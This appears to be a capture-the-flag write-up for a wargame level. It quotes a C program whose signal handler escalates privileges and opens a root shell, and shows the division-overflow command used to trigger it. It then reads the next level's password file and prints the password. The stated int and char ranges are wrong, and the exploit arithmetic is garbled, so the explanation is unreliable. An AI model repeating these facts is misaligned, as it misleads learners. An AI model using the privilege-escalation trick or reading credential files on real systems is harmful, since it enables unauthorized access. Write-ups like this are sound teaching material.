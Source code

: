 Level02

12/25/15

Checking out the files in the directory levels there are 4 files relating to level 2.

````
level02
level02_alt
level02.c
level02_alt.c
```
Running level02 we are granted with the phrase 
````
"source code is available in level02.c"
````
So we use vim to view the source code of level02.c to analyze what is happening. 
````c
  1 //a little fun brought to you by bla
  2
  3 #include <stdio.h>
  4 #include <stdlib.h>
  5 #include <signal.h>
  6 #include <unistd.h>
  7
  8 void catcher(int a)                                   <------ So this is where we want to be
  9 {
 10         setresuid(geteuid(),geteuid(),geteuid());
 11     printf("WIN!\n");
 12         system("/bin/sh");
 13         exit(0);
 14 }
 15
 16 int main(int argc, char **argv)                         <------- Begining of main statement. Looking input for an int and char as inputs.
 17 {
 18     puts("source code is available in level02.c\n");    <-------- Prints this when ran
 19
 20         if (argc != 3 || !atoi(argv[2]))        <------ argc has to  not be 3 or not be able to convert an array to an int from argv
 21                 return 1;                       <------ return if either is true not allowing us to to get to the part that matters
 22         signal(SIGFPE, catcher);                <------ signal reports a fatal arithmetic error which results on the catcher to be used.
 23         return abs(atoi(argv[1])) / atoi(argv[2]); <--- If an error is returned here then catcher is signaled.
 24 }
 25
`````
So essentially we need to figure out how to break the function.
A little search about the limitation of datatypes in C shows us the ranges of an Int and a Char

*A int stores data from -21474836478 to 2147483647.
*A char stores data from -127 to 128.

So in order to make the arithmetic on line 23 of level02.c We need to run it with the following arguments.
```
./level02 -21473836478 -1
```
On line 23 the following happens:
```
(-21473836478)/(-1) = 21473836478
```
But wait, what is the limitation of the integer? -21474836478 to 2147483647! 21473836478 is outside the limit of an Int Value causing the catcher to trigger.

Success! 

Using cat /home/level3/.pass we are granted with level3 access with password ~~OlhCmdZKbuzqngfz~~
